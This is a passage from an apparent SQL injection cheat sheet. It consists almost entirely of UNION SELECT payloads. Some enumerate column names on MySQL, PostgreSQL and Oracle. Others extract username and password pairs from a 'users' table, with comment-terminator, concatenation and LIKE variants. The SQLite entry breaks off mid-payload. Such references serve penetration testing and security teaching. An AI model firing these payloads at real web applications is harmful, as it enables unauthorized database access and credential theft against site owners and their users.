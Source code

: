```txt
' UNION SELECT column_name,NULL FROM information_schema.columns WHERE table_name='table_name'-- -
' UNION SELECT column_name,NULL FROM information_schema.columns WHERE table_name='table_name'#
```

### [PostgreSQL](https://exploit-notes.hdks.org/exploit/web/security-risk/sql-injection-cheat-sheet/#postgresql-1-1)

```txt
' UNION SELECT column_name,NULL FROM information_schema.columns WHERE table_name='table_name'--
```

### [Oracle](https://exploit-notes.hdks.org/exploit/web/security-risk/sql-injection-cheat-sheet/#oracle-1-1)

```txt
' UNION SELECT column_name,NULL FROM all_tab_columns WHERE table_name='table_name'--
```

### [SQLite](https://exploit-notes.hdks.org/exploit/web/security-risk/sql-injection-cheat-sheet/#sqlite-1-1)

```html
' UNION SELECT column
```

  

## [List Information in the Table](https://exploit-notes.hdks.org/exploit/web/security-risk/sql-injection-cheat-sheet/#list-information-in-the-table)

Get information in the table.  
For instance, suppose we want to get the username and password from the table named 'users'.

```txt
' UNION SELECT username,password FROM users--
' UNION SELECT username,password FROM users-- -

' UNION SELECT username || '~' || password FROM users--
' UNION SELECT username || '~' || password FROM users-- -

' UNION SELECT NULL,username || '~' || password FROM users--
' UNION SELECT NULL,username || '~' || password FROM users-- -

' UNION SELECT username,password FROM users WHERE username='admin' AND password='password1'--
' UNION SELECT username,password FROM users WHERE username='admin' AND password='password1'-- -

' UNION SELECT username,password FROM users WHERE username='admin' OR password='password1'--
' UNION SELECT username,password FROM users WHERE username='admin' OR password='password1'-- -

' UNION SELECT username,password FROM users WHERE username='admin' AND password LIKE 'pas%'--
' UNION SELECT username,password FROM users WHERE username='admin' AND password LIKE 'pas%'-- -
```
